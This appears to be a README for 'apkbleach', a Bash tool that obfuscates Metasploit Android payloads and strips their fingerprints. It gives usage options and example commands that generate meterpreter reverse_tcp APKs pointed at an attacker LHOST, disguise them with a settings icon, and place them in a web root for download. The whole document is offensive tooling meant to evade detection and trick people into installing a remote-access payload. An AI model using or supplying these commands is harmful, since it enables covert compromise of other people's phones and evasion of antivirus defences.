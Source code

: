 # apkbleach
This BASH script will remove the obvious fingerprints of metasploit through out a given apk file. It also gives the option to inject a custom app icon
   
Usage: 

         Usage: apkbleach -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use> -i <path/to/image.png> -o  <path/to/outputname.apk>

Options: 

      -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use>
          Generates obfuscated payload with nops
  
      -i <path/to/image.png> [ use -i --list ] to list defaults
          Sets image as the icon of the file.apk
  
      -o  <path/to/outputname.apk>
          Sets the name of custom output file
  
      -x <path/to/apk>
          Uses pre generated metasploit payload to obfuscate
  
      -h  Help menu

Examples: 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444

         ./apkbleach -x /root/msf.apk

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png -o /var/www/html/service.apk
